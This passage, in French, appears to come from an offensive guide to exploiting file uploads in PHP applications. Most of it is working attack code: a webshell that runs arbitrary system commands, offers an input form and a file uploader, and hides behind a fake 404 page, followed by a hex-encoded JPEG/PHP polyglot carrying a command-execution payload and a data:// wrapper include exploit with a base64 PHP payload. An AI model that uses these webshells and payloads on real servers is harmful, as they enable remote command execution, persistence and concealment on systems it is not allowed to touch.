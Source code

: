```php
<?php
// Webshell basique
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
// Webshell avec interface
if(isset($_REQUEST['ui'])){
    echo '<form action="" method="post">';
    echo '<input type="text" name="cmd" style="width:500px">';
    echo '<input type="submit" value="Execute">';
    echo '</form>';
    if(isset($_REQUEST['cmd'])){
        echo '<pre>';
        system($_REQUEST['cmd']);
        echo '</pre>';
    }
    exit;
}
// Uploader de fichiers
if(isset($_FILES['file'])){
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "Uploaded: " . $_FILES['file']['name'];
    exit;
}
// Camoufler la webshell comme une erreur 404
header("HTTP/1.0 404 Not Found");
echo "<h1>404 Not Found</h1>";
?>
```

#### Techniques avancées de bypass MIME

##### Polyglot files (fichiers polyglots)

Un fichier polyglot est valide dans plusieurs formats simultanément.

**Exemple de fichier JPEG/PHP polyglot** :
```
FF D8 FF E0 00 10 4A 46 49 46 00 01 01 00 00 01
00 01 00 00 FF FE 00 3B 3C 3F 70 68 70 20 73 79
73 74 65 6D 28 24 5F 47 45 54 5B 27 63 6D 64 27
5D 29 3B 20 3F 3E
```

Ce fichier est à la fois une image JPEG valide et contient du code PHP exécutable.

##### Utilisation de wrappers PHP

Si l'application inclut les fichiers uploadés, vous pouvez utiliser des wrappers PHP :

```
# Utilisation du wrapper data
<?php
include($_GET['file']);
?>

# Exploitation
file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```
